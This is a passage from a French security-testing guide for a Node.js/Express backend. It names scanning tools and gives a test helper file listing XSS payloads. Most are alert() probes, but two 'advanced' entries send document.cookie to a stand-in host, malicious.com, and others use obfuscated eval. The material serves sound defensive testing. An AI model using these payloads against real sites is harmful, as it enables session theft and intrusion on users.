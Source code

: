 ### Outils externes
- **OWASP ZAP** : Scanner automatique de vulnérabilités
- **Burp Suite Community** : Proxy d'interception
- **XSStrike** : Outil de détection XSS avancé

## 3. Tests Backend (Node.js/Express)

### Structure des tests
```
tests/
├── security/
│   ├── xss/
│   │   ├── reflected-xss.test.js
│   │   ├── stored-xss.test.js
│   │   └── dom-xss.test.js
│   └── helpers/
│       └── xss-payloads.js
```

### Payloads de test XSS
```javascript
// tests/security/helpers/xss-payloads.js
const XSS_PAYLOADS = {
  basic: [
    '<script>alert("XSS")</script>',
    '<img src=x onerror=alert("XSS")>',
    '<svg onload=alert("XSS")>',
    'javascript:alert("XSS")',
    '<iframe src="javascript:alert(\'XSS\')"></iframe>'
  ],
  advanced: [
    '<script>fetch("/api/users").then(r=>r.json()).then(d=>console.log(d))</script>',
    '<img src=x onerror="document.location=\'http://malicious.com/steal?cookie=\'+document.cookie">',
    '<svg/onload="new Image().src=\'http://malicious.com/log?\'+document.cookie">',
    '"><script>alert(String.fromCharCode(88,83,83))</script>',
    '<script>eval(String.fromCharCode(97,108,101,114,116,40,34,88,83,83,34,41))</script>'
  ],
  contextual: {
    htmlAttribute: [
      '" onmouseover="alert(\'XSS\')" "',
      '\' onmouseover=\'alert("XSS")\' \'',
      '"><script>alert("XSS")</script>'
    ],
    url: [
      'javascript:alert("XSS")',
      'data:text/html,<script>alert("XSS")</script>',
      'vbscript:alert("XSS")'
    ],
    css: [
      'expression(alert("XSS"))',
      'url("javascript:alert(\'XSS\')")',
      '@import "javascript:alert(\'XSS\')"'
    ]
  }
};

module.exports = XSS_PAYLOADS;
```
